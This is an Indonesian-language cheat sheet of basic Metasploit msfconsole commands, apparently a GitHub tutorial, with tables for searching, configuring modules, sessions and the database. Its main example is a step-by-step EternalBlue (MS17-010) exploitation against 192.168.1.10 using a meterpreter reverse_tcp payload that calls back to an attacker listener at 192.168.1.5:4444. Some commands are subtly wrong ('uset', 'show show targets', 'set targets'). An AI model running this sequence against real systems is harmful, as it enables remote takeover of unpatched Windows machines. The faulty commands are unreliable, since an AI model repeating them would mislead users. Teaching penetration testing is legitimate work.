 ## Perintah Dasar MSFconsole

### Perintah Navigasi dan Bantuan

| Perintah | Deskripsi |
|:--:|:--:|
| `help` | Menampilkan daftar perintah yang tersedia |
| `help [perintah]` | Menampilkan bantuan untuk perintah tertentu |
| `back` | Kembali dari konteks modul ke prompt utama |
| `exit` | Keluar dari MSFconsole |
| `version` | Menampilkan versi Metasploit Framework |

### Perintah Pencarian dan Informasi

| Perintah | Deskripsi |
|:--:|:--:|
| `search [kata kunci]` | Mencari modul berdasarkan kata kunci |
| `info [modul]` | Menampilkan informasi tentang modul tertentu |
| `show exploits` | Menampilkan semua modul exploit yang tersedia |
| `show auxiliary` | Menampilkan semua modul auxiliary yang tersedia |
| `show payloads` | Menampilkan semua payload yang tersedia |
| `show options` | Menampilkan opsi yang tersedia untuk modul yang dipilih |

### Penggunaan Modul

| Perintah | Deskripsi |
|:--:|:--:|
| `use [path modul]` | Memilih modul untuk digunakan |
| `set [opsi] [nilai]` | Mengatur nilai untuk opsi tertentu |
| `setg [opsi] [nilai]` | Mengatur nilai global untuk opsi tertentu |
| `uset [opsi]` | Menghapus nilai opsi |
| `check` | Memeriksa apakah target rentan (tidak semua modul mendukung) |
| `run` atau `exploit` | Menjalankan modul yang dipilih |

## Contoh Penggunaan Dasar

### Mencari Modul

```
search type:exploit platform:windows remote
```

Untuk pencarian lebih spesifik

```
search cve:2021 type:exploit
```

### Menggunakan Modul

```
# Menggunakan modul EternalBlue (MS17-010)
use exploit/windows/smb/ms17_010_eternalblue

# Menampilkan opsi yang ada di modul ms17_010_eternalblue
show options

# Menggunakan payload windows/x64/meterpreter/reverse_tcp
set PAYLOAD windows/x64/meterpreter/reverse_tcp

# Setting alamat IP target yang ingin dieksploitasi
set RHOSTS 192.168.1.10

# Setting port SMB dari target (default: 445)
set RPORT 445

# Setting alamat IP lokal (attacker) yang akan menerima koneksi reverse
set LHOST 192.168.1.5

# Setting port lokal untuk koneksi reverse
set LPORT 4444

# Menampilkan daftar target yang didukung oleh modul
show show targets

# Memilih target yang sesuai dari daftar (misal: 1)
set targets 1

# Menjalankan eksploitasi
exploit
```

## Fitur Tambahan MSFconsole

### Mengelola Sesi 

| Perintah | Deskripsi |
|:--:|:--:|
| `sessions -l` | Menampilkan semua sesi yang aktif |
| `sessions -i [id]` | Berinteraksi dengan sesi tertentu |
| `sessions -k [id]` | Menghentikan sesi tertentu |

### Manajemen Database

| Perintah | Deskripsi |
|:--:|:--:|
| `db_status` | Memeriksa status koneksi database |
| `workspace` | Menampilkan dan mengelola workspace | 
| `hosts` | Menampilkan host yang tersimpan di database |
| `services` | Menampilkan layanan yang tersimpan di database |
| `vulns` | Menampilkan kerentanan yang terdeteksi |

Itu dia perintah dasar MSFconsole.
